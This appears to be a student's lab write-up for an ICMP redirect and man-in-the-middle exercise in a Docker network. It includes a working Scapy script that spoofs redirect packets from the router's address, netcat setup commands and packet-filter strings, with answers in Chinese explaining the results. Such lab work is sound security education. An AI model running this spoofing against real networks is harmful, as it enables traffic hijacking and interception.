







# ICMP Redirect

## Task 1: Launching ICMP Redirect Attack



```python
#!/usr/bin/python3
from scapy.all import *
ip = IP(src = "10.9.0.11", dst = "10.9.0.5") # pretend to be router
icmp = ICMP(type=5, code=1) # ICMP redirect
icmp.gw = "10.9.0.111"
# The enclosed IP packet should be the one that
# triggers the redirect message.
ip2 = IP(src = "10.9.0.5", dst = "192.168.60.5")
send(ip/icmp/ip2/ICMP());
```



* Question 1: Can you use ICMP redirect attacks to redirect to a remote machine? Namely, the IP address assigned to icmp.gw is a computer not on the local LAN. Please show your experiment result, and explain your observation.

先使用`ip route flush cache`在victim上清除cache。然后修改脚本，将`icmp.gw`改为`1.2.3.4`，重复实验，发现ICMP重定向攻击不成功，依然选择了正确的路由器。



* Question 2: Can you use ICMP redirect attacks to redirect to a non-existing machine on the same network? Namely, the IP address assigned to icmp.gw is a local computer that is either offline or non-existing. Please show your experiment result, and explain your observation.

先使用`ip route flush cache`在victim上清除cache。然后修改脚本，将`icmp.gw`改为`10.9.0.112`，重复实验，发现ICMP重定向攻击不成功，依然选择了正确的路由器。



* Question 3: If you look at the docker-compose.yml file, you will find the following entries for the malicious router container. What are the purposes of these entries? Please change their value to 1, and launch the attack again. Please describe and explain your observation.

  ```
  sysctls:
  - net.ipv4.conf.all.send_redirects=0
  - net.ipv4.conf.default.send_redirects=0
  - net.ipv4.conf.eth0.send_redirects=0
  ```

  

将上述参数的0改为1后，上述攻击均不成功。这些参数用于指定是否发送重定向包。如果设为1，那么在attacker发送ICMP重定向包后，victim以malicious router作为网关，又会收到malicious router的重定向包，最终重定向回正确的路由，攻击失败。



## Task 2: Launching the MITM Attack


malicious router:

```shell
# sysctl net.ipv4.ip_forward=0
# mitm.py
```


victim:

```shell
# nc 192.168.60.5 9090
```




192.168.60.5:

```shell
# nc -lp 9090
```




* Question 4: In your MITM program, you only need to capture the traffics in one direction. Please
  indicate which direction, and explain why.

  只需要捕捉从victim发往192.168.60.5的流量。

* Question 5: In the MITM program, when you capture the nc traffics from A (10.9.0.5), you can
  use A’s IP address or MAC address in the filter. One of the choices is not good and is going to create
  issues, even though both choices may work. Please try both, and use your experiment results to show
  which choice is the correct one, and please explain your conclusion.

  用IP地址过滤：`tcp and src 10.9.0.5`

  用MAC地址过滤：`tcp and ether src 02:42:0a:09:00:05`（MAC地址是victim的MAC地址）

  应当使用MAC地址过滤，因为用IP地址过滤会产生源源不断地输出，而用MAC地址过滤时，每当victim向192.168.60.5发送包时只会产生一个输出。

  

